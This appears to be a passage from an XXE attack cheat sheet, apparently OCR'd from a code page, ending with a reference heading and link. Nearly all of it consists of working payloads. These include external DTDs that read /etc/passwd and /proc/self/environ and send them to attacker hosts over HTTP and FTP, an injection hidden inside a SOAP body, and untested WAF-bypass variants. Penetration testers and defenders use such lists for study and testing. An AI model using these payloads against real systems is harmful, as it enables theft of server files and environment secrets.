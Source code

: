 ```
 
## External dtd: ##
 
<!ENTITY all "%start;%stuff;%end;">

------------------------------------------------------------------
File-not-found exception based extraction
------------------------------------------------------------------

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>

## External dtd: ##

<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>">

-------------------------^ you might need to encode this % (depends on your target) as: &#x25;

--------------
FTP
--------------
<?xml version="1.0" ?>
<!DOCTYPE a [ 
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd">
%asd;
%c;
]>
<a>&rrr;</a>


## External dtd ##
<!ENTITY % d SYSTEM "file:///proc/self/environ">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">

---------------------------
Inside SOAP body
---------------------------
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>


---------------------------
Untested - WAF Bypass
---------------------------
<!DOCTYPE :. SYTEM "http://"
<!DOCTYPE :_-_: SYTEM "http://"
<!DOCTYPE {0xdfbf} SYSTEM "http://"
```

### 0x08 参考

[翻译link]https://hawkinsecurity.com/2018/03/24/gaining-filesystem-access-via-blind-oob-xxe/

